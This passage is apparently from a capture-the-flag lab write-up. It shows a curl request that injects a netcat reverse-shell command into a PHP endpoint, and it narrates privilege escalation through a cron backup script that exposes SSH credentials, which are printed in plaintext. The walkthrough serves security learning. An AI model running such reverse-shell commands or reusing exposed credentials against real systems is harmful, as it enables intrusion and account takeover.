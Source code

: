 ### Reverse Shell Access

{% code overflow="wrap" lineNumbers="true" %}
```bash
curl -s -X POST http://shell.harder.local/index.php -H 'X-Forwarded-For: 10.10.10.20' -H 'Cookie: PHPSESSID=i8pnq0mrhmi2u9ulortl7hbnvm' --data 'cmd=nc 10.18.88.214 1234 -e /bin/sh' | html2text

# ready nc listener.
```
{% endcode %}

And I got shell. Though the availabe shell/configured shell for all the users is `/bin/ash` - so `bash or sh` will not work.

<figure><img src=".gitbook/assets/image (289).png" alt=""><figcaption></figcaption></figure>

So i uploaded `linPEAS` and used it to check for any escalation vectors, and found:

<figure><img src=".gitbook/assets/image (290).png" alt=""><figcaption></figcaption></figure>

There is a `/etc/periodic/15min/evs-backup.sh` file, owned by user `www` but in `/etc` directory.

<figure><img src=".gitbook/assets/image (291).png" alt=""><figcaption></figcaption></figure>

Contained ssh credentials for `evs` user.

`evs : U6j1brxGqbsUA$pMuIodnb$SZB4$bw14` .

And logged in via ssh

<figure><img src=".gitbook/assets/image (292).png" alt=""><figcaption></figcaption></figure>
